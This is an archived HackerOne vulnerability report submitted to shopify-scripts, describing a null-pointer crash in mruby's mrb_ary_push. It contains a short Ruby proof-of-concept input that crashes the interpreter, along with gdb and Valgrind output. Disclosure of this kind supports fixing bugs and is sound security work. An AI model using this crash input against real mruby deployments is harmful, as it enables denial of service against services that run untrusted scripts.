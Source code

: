 # Crash in mrb_ary_push

## Report Details
- **Report ID**: 420115
- **URL**: https://hackerone.com/reports/420115
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2018-10-06T18:30:45.630Z
- **Disclosed**: 2019-09-04T13:33:48.294Z

## Reporter
- **Username**: dgaletic
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC
===
The following demonstrates a crash:

    def method_missing(*)
    end
    {}.[]0[*0] %=
    begin{0=>0}
    00end


Debug info
==========

The crash happens in `mrb_ary_push`:

    495│ mrb_ary_push(mrb_state *mrb, mrb_value ary, mrb_value elem)
    496│ {
    497│   struct RArray *a = mrb_ary_ptr(ary);
    498├─> mrb_int len = ARY_LEN(a);

    (gdb) p a
    $1 = (struct RArray *) 0x0


Valgrind report:

    ==17609== Memcheck, a memory error detector
    ==17609== Copyright (C) 2002-2017, and GNU GPL'd, by Julian Seward et al.
    ==17609== Using Valgrind-3.14.0.GIT and LibVEX; rerun with -h for copyright info
    ==17609== Command: mruby poc
    ==17609==
    ==17609== Invalid read of size 4
    ==17609==    at 0x136134: mrb_ary_push (array.c:498)
    ==17609==    by 0x16EEAE: mrb_vm_exec (vm.c:2614)
    ==17609==    by 0x1647E6: mrb_vm_run (vm.c:972)
    ==17609==    by 0x1787F7: mrb_top_run (vm.c:2999)
    ==17609==    by 0x1523E4: mrb_load_exec (parse.y:6013)
    ==17609==    by 0x1525C6: mrb_load_file_cxt (parse.y:6022)
    ==17609==    by 0x10DBF1: main (mruby.c:280)
    ==17609==  Address 0x0 is not stack'd, malloc'd or (recently) free'd

Test platform
=============
* Arch Linux

mruby SHA: a690aef8d3219e3123822e741e2bb7c97220425c

Thank you,
Dinko Galetic
Denis Kasak

## Impact

DOS through crashing the mruby process.

## Attachments
- poc
